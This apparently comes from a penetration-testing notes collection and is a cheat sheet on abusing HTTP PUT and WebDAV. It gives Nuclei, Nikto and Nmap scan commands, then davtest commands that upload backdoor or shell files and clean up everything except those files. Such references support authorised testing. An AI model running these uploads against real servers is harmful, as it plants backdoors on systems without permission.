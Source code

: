 # PUT Upload

## 01 - Nuclei

Find a misconfiguration HTTP option to upload files.

```
$ nuclei -u <URL> -t ~/nuclei-templates -id put-method-enabled
```

## 02 - Nikto

```
$ nikto -h <URL> -Plugins put_del_test
```

## 03 - Nmap

```
$ nmap -p 80,443,8000,8080,8443 -Pn -n --script http-webdav-scan --script-args http-methods.url-path=/path/to/url <IP>
```

## 04 - Davtest

Upload backdoor automatically in each test.

```
$ davtest [-auth user:password] -sendbd auto -url http[s]://<IP>
```

Choose method to upload file for the executable file extension.

```
$ davtest [-auth user:password] -copy -sendbd auto -url http[s]://<IP>

$ davtest [-auth user:password] -move -sendbd auto -url http[s]://<IP>
```

Delete everything uploaded except for backdoor/shell files.

```
$ davtest -cleanup -url http[s]://<IP>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/HTTP/04 - WebDAV/Scanners|Active Fingerprinting: WebDAV]]

- [Davtest](https://github.com/cldrn/davtest)

- [Hacktricks: PUT Method WebDAV](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav)

- [Arridae: Exploiting HTTP PUT method](https://www.arridae.com/blogs/HTTP-PUT-method.php)